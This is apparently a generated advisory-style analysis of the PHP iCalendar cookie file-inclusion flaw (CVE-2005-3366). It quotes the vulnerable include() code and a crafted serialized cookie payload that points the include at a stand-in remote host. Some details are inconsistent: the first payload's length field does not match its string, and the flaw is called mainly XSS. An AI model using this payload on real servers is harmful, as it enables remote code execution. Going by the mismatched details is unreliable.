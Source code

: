Based on the provided content, here's an analysis of the vulnerability:

**CVE ID:** CVE-2005-3366 (Based on the content from marc.info, this vulnerability was later assigned CVE-2005-3366)

**Root Cause:** The vulnerability stems from a lack of input validation when processing the `phpicalendar` cookie in `index.php`. The application unserializes data from the cookie and uses a value from it (`cookie_view`) to construct a filename that is then included.

**Weaknesses/Vulnerabilities Present:**
* **Cross-Site Scripting (XSS):** The primary vulnerability is XSS, achieved by injecting malicious code through the crafted cookie.
* **Arbitrary File Inclusion:** By manipulating the `cookie_view` value, an attacker can force the application to include a file of their choosing. This is because the value is concatenated with `.php` and then directly included.

**Impact of Exploitation:**
* An attacker can inject arbitrary code into the application.
* This can lead to session hijacking, defacement of the site, and other malicious activities.
* Since the included file is not validated, an attacker could potentially include a file from a remote location or local.

**Attack Vectors:**
* **HTTP Cookie Manipulation:** The attack is carried out by crafting a malicious `phpicalendar` cookie.
* **Serialized Data Injection:** The attacker injects a specially crafted serialized array into the cookie which contains malicious URL
* **Include function:** The application then takes this data from cookie, creates a path to a file with `.php` and executes it.

**Required Attacker Capabilities/Position:**
* The attacker needs the ability to send a crafted HTTP request containing the malicious cookie to the target server.
* No prior authentication or special permissions are needed.

**Technical Details:**
* Vulnerable code snippet:
```php
if (isset($_COOKIE['phpicalendar'])) {
 $phpicalendar = unserialize(stripslashes($_COOKIE['phpicalendar']));
 $default_view = $phpicalendar['cookie_view'];
}

if ($printview_default == 'yes') {
 $printview = $default_view;
 $default_view = "print.php";
} else {
 $default_view = "$default_view".".php";
}

include($default_view);
```
* Malicious cookie example: `a:1:{s:11:"cookie_view";s:23:"<http://www.mali.cious/script>";}` which gets urlencoded to `phpicalendar=a%3A1%3A%7Bs%3A11%3A%22cookie_view%22%3Bs%3A34%3A%22http%3A%2F%2Fwww.ush.it%2Fteam%2Fascii%2F-----%22%3B%7D`

**Affected Versions:**
* PHP iCalendar versions 2.0a2, 2.0b, 2.0c, and 2.0.1 are affected.

**Mitigation:**
* Input validation: The vendor was advised to implement input validation on the `cookie_view` value.
* Header redirection: Using a header location redirect instead of including the file was suggested as another method to fix this vulnerability.
* Remote file inclusion protection: Preventing PHP from accessing remote files, if such configuration was possible, would mitigate the vulnerability.

**Additional Notes:**
* The advisory mentions that the vendor fixed the bug in their CVS tree but this was not verified.
* The vulnerability was discovered and reported by Francesco 'aScii' Ongaro.